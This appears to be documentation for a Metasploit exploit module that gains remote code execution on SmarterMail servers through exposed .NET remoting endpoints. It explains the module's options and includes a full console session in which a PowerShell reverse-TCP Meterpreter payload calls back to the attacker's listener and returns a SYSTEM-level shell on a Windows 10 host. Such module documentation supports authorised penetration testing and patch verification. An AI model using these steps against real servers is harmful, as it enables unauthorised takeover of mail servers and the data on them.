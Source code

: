 ## Options

### TARGET (Required)

    0. Target 0 (default) - Windows Command uses a default PowerShell payload to execute
    code and open a Meterpreter session. However, any desired payload can be chosen. Choose with `set TARGET 0`.
    1. Target 1 - x86/x64 Windows CmdStager uses a CmdStager with default `vbs` stager flavor to execute code
    and open a Meterpreter session. Choose with `set TARGET 1`.

### ENDPOINT (Required)

Choose one of three exposed .NET remoting endpoints, either `Servers`, `Spool` or `Mail`.
The default is `Servers`, but any one of the three will do.

### RPORT (Required)

This is the port for the SmarterMail HTTP server, which is default on port 9998.
Although this port is not required for exploitation, it is required for checking the
vulnerability and version/build number of the SmarterMail software.

### TARGETURI (Required)

This is the base path of the SmarterMail HTTP server. The vulnerability check follows the
redirect from base path `/` to the login page at `/interface/root#/login`, but this option
is provided in case the login page is located at a different URI.

### TCP_PORT (Required)

This is the TCP port where the .NET remoting endpoints are located, and is required for
sending serialized data and Meterpreter payloads. The default port is 17001.

## Scenarios

### SmarterMail Build 6970 on Windows 10 Pro

* Using default TARGET 0 - Windows Command

```
msf > use exploit/windows/http/smartermail_rce 
[*] Using configured payload cmd/windows/powershell/meterpreter/reverse_tcp
msf exploit(windows/http/smartermail_rce) > set RHOSTS 192.168.29.1
RHOSTS => 192.168.29.1
msf exploit(windows/http/smartermail_rce) > set LHOST eth0
LHOST => 192.168.245.128
msf exploit(windows/http/smartermail_rce) > exploit

[*] Started reverse TCP handler on 192.168.245.128:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking target web server for a response...
[+] Target is running SmarterMail.
[*] Checking SmarterMail product build...
[+] Target is running SmarterMail Build 6970.
[+] The target appears to be vulnerable.
[*] Sending stage (175686 bytes) to 192.168.245.1
[*] Meterpreter session 1 opened (192.168.245.128:4444 -> 192.168.245.1:51164) at 2023-07-07 03:30:47 -0400

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : DESKTOP-50BU5J8
OS              : Windows 10 (10.0 Build 19045).
```